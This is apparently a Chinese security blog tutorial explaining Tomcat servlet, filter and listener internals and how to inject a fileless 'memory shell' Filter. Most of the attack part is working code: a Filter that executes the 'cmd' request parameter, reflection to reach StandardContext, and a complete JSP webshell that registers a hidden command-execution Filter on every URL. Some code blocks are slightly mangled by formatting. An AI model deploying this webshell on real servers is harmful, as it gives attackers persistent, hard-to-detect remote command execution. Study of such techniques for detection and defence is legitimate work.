


> tomcat作为servelt容器，基于tomcat的内存马其实就是对servlet api的操作，如listener,filter或者servlet。


## servlet api


### Servlet


Servlet 是运行在 Web 服务器或应用服务器上的程序，它是作为来自 HTTP 客户端的请求和 HTTP 服务器上的数据库或应用程序之间的中间层。它负责处理用户的请求，并根据请求生成相应的返回信息提供给用户。


Servlet 程序是由 WEB 服务器调用，web 服务器收到客户端的 Servlet 访问请求后：

1. Web 服务器首先检查是否已经装载并创建了该 Servlet 的实例对象。如果是，则直接执行第 4 步，否则，执行第 2 步。
2. 装载并创建该 Servlet 的一个实例对象。
3. 调用 Servlet 实例对象的 init() 方法。
4. 创建一个用于封装 HTTP 请求消息的 HttpServletRequest 对象和一个代表 HTTP 响应消息的 HttpServletResponse 对象，然后调用 Servlet 的 service() 方法并将请求和响应对象作为参数传递进去。
5. WEB 应用程序被停止或重新启动之前，Servlet 引擎将卸载 Servlet，并在卸载之前调用 Servlet 的 destroy() 方法。

### Filter


Filter 译为过滤器。过滤器实际上就是对 web 资源进行拦截，做一些处理后再交给下一个过滤器或 servlet 处理，通常都是用来拦截 request 进行处理的，也可以对返回的 response 进行拦截处理。


web 服务器根据 Filter 在 web.xml 文件中的注册顺序，决定先调用哪个 Filter，当第一个 Filter 的 doFilter 方法被调用时，web 服务器会创建一个代表 Filter 链的 FilterChain 对象传递给该方法。在 doFilter 方法中，开发人员如果调用了 FilterChain 对象的 doFilter 方法，则 web 服务器会检查 FilterChain 对象中是否还有 filter，如果有，则调用第 2 个 filter，如果没有，则调用目标资源。


生命周期:


`init`


```java
public void init(FilterConfig filterConfig) throws ServletException;

```


初始化和我们编写的Servlet程序一样，Filter的创建和销毁由WEB服务器负责。web 应用程序启动时，web 服务器将创建Filter 的实例对象，并调用其init方法，读取web.xml配置，完成对象的初始化功能，从而为后续的用户请求作好拦截的准备工作（filter对象只会创建一次，init方法也只会执行一次）。开发人员通过init方法的参数，可获得代表当前filter配置信息的FilterConfig对象。


`Filter`


```java
public void doFilter(ServletRequest request, ServletResponse response, FilterChain chain) throws IOException, ServletException;

```


拦截请求这个方法完成实际的过滤操作。当客户请求访问与过滤器关联的URL的时候，Servlet过滤器将先执行doFilter方法。FilterChain参数用于访问后续过滤器。


`destroy`


```java
public void destroy();

```


销毁Filter对象创建后会驻留在内存，当web应用移除或服务器停止时才销毁。在Web容器卸载 Filter 对象之前被调用。该方法在Filter的生命周期中仅执行一次。在这个方法中，可以释放过滤器使用的资源。


### Listener


监听器用于监听 Web 应用中某些对象的创建、销毁、增加，修改，删除等动作的发生，然后作出相应的响应处理。当监听范围的对象的状态发生变化的时候，服务器自动调用监听器对象中的方法。常用于统计网站在线人数、系统加载时进行信息初始化、统计网站的访问量等等。


主要由三部分构成：

- 事件源：被监听的对象
- 监听器：监听的对象，事件源的变化会触发监听器的响应行为
- 响应行为：监听器监听到事件源的状态变化时所执行的动作

在初始化时，需要将事件源和监听器进行绑定，也就是注册监听器。


可以使用监听器监听客户端的请求、服务端的操作等。通过监听器，可以自动出发一些动作，比如监听在线的用户数量，统计网站访问量、网站访问监控等。


## Tomcat Filter 示例


先启动一个tomcat示例，其中的一个路由为`hello-servlet`.


```java
_package com.test.serveltdemo;

import java.io.;
import javax.servlet.http.;
import javax.servlet.annotation.;

@WebServlet(name = "helloServlet", value = "/hello-servlet")
public class HelloServlet extends HttpServlet {
    private String message;

    public void init() {
        message = "Hello World!";
    }

    public void doGet(HttpServletRequest request, HttpServletResponse response) throws IOException {
        response.setContentType("text/html");

        // Hello
        PrintWriter out = response.getWriter();
        out.println("<html><body>");
        out.println("<h1>" + message + "</h1>");
        out.println("</body></html>");
    }

    public void destroy() {
    }
}_

```


访问其路由地址，返回正常


接下来我们来写一个过滤器，当用户输入指定的url时就会触发过滤器中指定的操作。


```java
_package com.test.serveltdemo;

import javax.servlet.;
import javax.servlet.annotation.WebFilter;
import javax.servlet.http.HttpServletRequest;
import java.io.BufferedReader;
import java.io.IOException;
import java.io.InputStreamReader;
import java.util.ArrayList;
import java.util.List;

//使用注解注册过滤器
@WebFilter(filterName="MyFilter" ,urlPatterns="/hello-servlet")
public class MyFilter implements Filter {
    @Override
    public void init(FilterConfig filterConfig) throws ServletException {
        System.out.println("Filter 创建");
    }

    @Override
    public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
        System.out.println("执行过滤过程");
        HttpServletRequest request=(HttpServletRequest) servletRequest;
        //获取url参数，执行命令
        String cmd = request.getParameter("cmd");
        Process process = null;
        List<String> processList = new ArrayList<String>();
        try {
            if (cmd!=null) {
                process = Runtime.getRuntime().exec(cmd);
                BufferedReader input = new BufferedReader(new InputStreamReader(process.getInputStream()));
                String line = "";
                while ((line = input.readLine()) != null) {
                    processList.add(line);
                }
                input.close();
            }
        } catch (IOException e) {
            e.printStackTrace();
        }
        String s = "";
        for (String line : processList) {
            s += line + "\n";
        }
        if (s.equals("")) {
            // 如果cmd参数为空直接放行，不做任何操作
            filterChain.doFilter(servletRequest,servletResponse);
        }else {
            servletResponse.getOutputStream().write(s.getBytes());
        }
    }
    @Override
    public void destroy() {
        System.out.println("Filter 销毁");
    }
}_

```


上述代码中我们使用了注解进行注册过滤器，也可以在web.xml中进行配置，等同于下面的配置：


```xml
<!-- 配置Filter -->
    <filter>  
        <filter-name>MyFilter</filter-name>  
        <filter-class>com.test.serveltdemo.MyFilter</filter-class>  
    </filter>  
    <filter-mapping>  
        <filter-name>MyFilter</filter-name>  
        <url-pattern>/hello-servlet</url-pattern>
    </filter-mapping>  

```


当访问对应的路由时，过滤器就会生效：


当不带参数访问时，还是正常的页面：


这样就完成了一个简单的Filter执行命令的示例。


## Tomcat Filter内存马


要想注入Tomcat Filter内存马，首先要对Tomcat的Filter过滤器执行过程有一定的了解，这里我主要参考了[这篇文章](https://paper.seebug.org/1441/#2tomcat-filter)，想要仔细看的可以去细读下。


我这里就做个总结吧：


**了解Tomcat过滤器涉及到的几个核心类及其功能**

- FilterDefs：存放FilterDef的数组 ，FilterDef 中存储着我们过滤器名，过滤器实例，作用 url 等基本信息
- FilterConfigs：存放filterConfig的数组，在 FilterConfig 中主要存放 FilterDef 和 Filter对象等信息
- FilterMaps：存放FilterMap的数组，在 FilterMap 中主要存放了 FilterName 和 对应的URLPattern
- FilterChain：过滤器链，该对象上的 doFilter 方法能依次调用链上的 Filter
- WebXml：存放 web.xml 中内容的类
- ContextConfig：Web应用的上下文配置类
- StandardContext：Context接口的标准实现类，一个 Context 代表一个 Web 应用，其下可以包含多个 Wrapper
- StandardWrapperValve：一个 Wrapper 的标准实现类，一个 Wrapper 代表一个Servlet

**了解Tomcat中是如何将我们自定义的 filter 进行设置并且调用的**

1. 通过 configureContext 解析 web.xml 然后返回 webXml 实例

	


	

2. 在 StandardWrapperValve 中利用 ApplicationFilterFactory 来创建filterChain我们看到红框处的代码，首先会调用 getParent 获取当前 Context （即当前 Web应用），然后会从 Context 中获取到 filterMapsfilterMaps中的 filterMap 主要存放了过滤器的名字以及作用的 url，继续往下看

	


	


	

3. 遍历 FilterMaps 中的 FilterMap，如果发现符合当前请求 url 与 FilterMap 中的 urlPattern 相匹配，就会进入 if 判断会调用 findFilterConfig 方法在 filterConfigs 中寻找对应 filterName名称的 FilterConfig，然后如果不为null，就进入 if 判断，将 filterConfig 添加到 filterChain中。跟进addFilter函数，在addFilter函数中首先会遍历filters，判断我们的filter是否已经存在，不存在的话，会将我们的filterConfig 添加到 filters中。至此 filterChain 组装完毕，重新回到 StandardContextValue 中，调用 filterChain 的 doFilter 方法 ，就会依次调用 Filter 链上的 doFilter方法。在 doFilter 方法中会调用 internalDoFilter方法在internalDoFilter方法中首先会依次从 filters 中取出 filterConfig

	


	


	

4. 调用 getFilter() 将 filter 从 filterConfig 中取出，调用 filter 的 doFilter方法。最后调用我们自定义过滤器中的 doFilter 方法，从而触发了相应的代码

	


那么在了解了Tomcat的Filter运行过程后，那么要注入内存马，就是要想办法修改`filterConfigs`,`filterRefs`,`filterMaps`这三个变量，这三个变量都是Tomcat context变量的成员变量。如下图：


在回忆下这三个成员变量的作用：

- filterConfigs：filterConfig的数组 filterconfig里面有filterdef 以及filter对象
- filterDefs：filterRef的数组 FilterDef的作用主要为描述filter的字符串名称与Filter实例的关系
- filterMaps：filterMap的数组(FilterMap中存放了所有filter相关的信息包括filterName和urlPattern。有了这些之后，使用matchFiltersURL函数将每个filter和当前URL进行匹配，匹配成功的通过) filterConfig我们看过，这里注意，filterConfig.filterRef实际和context.filterRef指向的地址一样，也就是同一个东西

设法修改这三个变量，也许就能实现目的。


查看StandardContext源码:
StandardContext.addFilterDef()可以修改filterRefs
StandardContext.filterStart()函数会根据filterDef重新生成filterConfigs
至于filtermaps，直接本地new一个filter插入到数组第一位即可


那么如何获取StandardContext呢？，当我们能直接获取 `request` 的时候可以将 `ServletContext` 转为 `StandardContext` 从而获取 `context`.


> ServletContext跟StandardContext的关系:


Tomcat中的对应的ServletContext实现是ApplicationContext。在Web应用中获取的
ServletContext实际上是ApplicationContextFacade对象，对ApplicationContext进行了封
装，而ApplicationContext实例中又包含了StandardContext实例，以此来获取操作Tomcat容器内部的一些信息，例如Servlet的注册等。


> 通过下面的图可以很清晰的看到两者之间的关系  
> 


当 Web 容器启动的时候会为每个 Web 应用都创建一个 `ServletContext` 对象，代表当前 Web 应用.


通过反射即可获取到`standardContext`对象


```java
ServletContext servletContext = request.getServletContext();
Field appctx = servletContext.getClass().getDeclaredField("context");
appctx.setAccessible(true);
// ApplicationContext 为 ServletContext 的实现类
ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);

Field stdctx = applicationContext.getClass().getDeclaredField("context");
stdctx.setAccessible(true);
// 这样我们就获取到了 context 
StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);

```


其它获取`standardContext`对象的方法：

- 如果没有request对象的话可以从当前线程中获取
https://zhuanlan.zhihu.com/p/114625962
- 从MBean中获取
https://scriptboy.cn/p/tomcat-filter-inject/

获取到`standardContext`后就可以注入内存马了，大致流程如下：

1. 创建一个恶意 Filter
2. 利用 FilterDef 对 Filter 进行一个封装
3. 将 FilterDef 添加到 FilterDefs 和 FilterConfig
4. 创建 FilterMap ，将我们的 Filter 和 urlpattern 相对应，存放到 filterMaps中（由于 Filter 生效会有一个先后顺序，所以我们一般都是放在最前面，让我们的 Filter 最先触发）

代码如下：


```java
Field Configs = standardContext.getClass().getDeclaredField("filterConfigs");
Configs.setAccessible(true);
Map filterConfigs = (Map) Configs.get(standardContext);
// 首先判断名字是否存在，如果不存在我们就进行注入
  if (filterConfigs.get(name) == null){
        // 创建恶意 Filter
        Filter filter = new Filter() {
            @Override
            public void init(FilterConfig filterConfig) throws ServletException {
            }

            @Override
            public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
                HttpServletRequest req = (HttpServletRequest) servletRequest;
                if (req.getParameter("cmd") != null){
                    byte[] bytes = new byte[1024];
                    Process process = new ProcessBuilder("bash","-c",req.getParameter("cmd")).start();
                    int len = process.getInputStream().read(bytes);
                    servletResponse.getWriter().write(new String(bytes,0,len));
                    process.destroy();
                    return;
                }
                filterChain.doFilter(servletRequest,servletResponse);
            }

            @Override
            public void destroy() {

            }

        };

        /
          _创建一个FilterDef 然后设置我们filterDef的名字，和类名，以及类
         /
        FilterDef filterDef = new FilterDef();
        filterDef.setFilter(filter);
        filterDef.setFilterName(name);
        filterDef.setFilterClass(filter.getClass().getName());

        // 调用 addFilterDef 方法将 filterDef 添加到 filterDefs中
        standardContext.addFilterDef(filterDef);

        /_
          _创建一个filtermap
          设置filter的名字和对应的urlpattern
         /
        FilterMap filterMap = new FilterMap();
        filterMap.addURLPattern("/");
        filterMap.setFilterName(name);
        // 这里用到的 javax.servlet.DispatcherType类是servlet 3 以后引入，而 Tomcat 7以上才支持 Servlet 3
        filterMap.setDispatcher(DispatcherType.REQUEST.name());
        /_
          _将filtermap 添加到 filterMaps 中的第一个位置
         /
        standardContext.addFilterMapBefore(filterMap);

        /_
          _利用反射创建 FilterConfig，并且将 filterDef 和 standardContext Context）作为参数进行传入
         /
        Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class,FilterDef.class);
        constructor.setAccessible(true);
        ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext,filterDef);_


```


完整的jsp代码如下：


```text
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.util.Map" %>
<%@ page import="java.io.IOException" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterDef" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterMap" %>
<%@ page import="java.lang.reflect.Constructor" %>
<%@ page import="org.apache.catalina.core.ApplicationFilterConfig" %>
<%@ page import="org.apache.catalina.Context" %>
<%@ page language="java" contentType="text/html; charset=UTF-8" pageEncoding="UTF-8"%>

<%
    final String name = "darkless";
    ServletContext servletContext = request.getSession().getServletContext();

    Field appctx = servletContext.getClass().getDeclaredField("context");
    appctx.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);

    Field stdctx = applicationContext.getClass().getDeclaredField("context");
    stdctx.setAccessible(true);
    StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);

    Field Configs = standardContext.getClass().getDeclaredField("filterConfigs");
    Configs.setAccessible(true);
    Map filterConfigs = (Map) Configs.get(standardContext);

    if (filterConfigs.get(name) == null){
        Filter filter = new Filter() {
            @Override
            public void init(FilterConfig filterConfig) throws ServletException {

            }

            @Override
            public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
                HttpServletRequest req = (HttpServletRequest) servletRequest;
                if (req.getParameter("cmd") != null){
                    byte[] bytes = new byte[1024];
                    //暂时只写了windows下的命令执行
                    Process process = new ProcessBuilder("cmd","/c",req.getParameter("cmd")).start();
                    int len = process.getInputStream().read(bytes);
                    servletResponse.getWriter().write(new String(bytes,0,len));
                    process.destroy();
                    return;
                }
                filterChain.doFilter(servletRequest,servletResponse);
            }

            @Override
            public void destroy() {

            }

        };


        FilterDef filterDef = new FilterDef();
        filterDef.setFilter(filter);
        filterDef.setFilterName(name);
        filterDef.setFilterClass(filter.getClass().getName());
        /**
         * 将filterDef添加到filterDefs中
         */
        standardContext.addFilterDef(filterDef);

        FilterMap filterMap = new FilterMap();
        filterMap.addURLPattern("/*");
        filterMap.setFilterName(name);
        filterMap.setDispatcher(DispatcherType.REQUEST.name());

        standardContext.addFilterMapBefore(filterMap);

        Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class,FilterDef.class);
        constructor.setAccessible(true);
        ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext,filterDef);

        filterConfigs.put(name,filterConfig);
        out.print("Inject Success !");
    }
%>
```


进行内存马注入：


访问内存马：


## **最后**


上述文章简单描述了基于Tomcat filter的内存马原理和注入方法，但是此种方式需要基于jsp的webshell进行注入，在实战过程中，此种方式用到的地方不多，大多数是基于反序列化漏洞的动态内存马注入。要想理解此种方式还需对java反序列化有一点的了解，这个我们后续再谈。


**参考文章：**


[Tomcat 内存马学习(一)：Filter型](http://wjlshare.com/archives/1529)


[JSP Webshell那些事 -- 攻击篇(下)](https://mp.weixin.qq.com/s/YhiOHWnqXVqvLNH7XSxC9w)


[中间件内存马注入&冰蝎连接](https://paper.seebug.org/1441/)

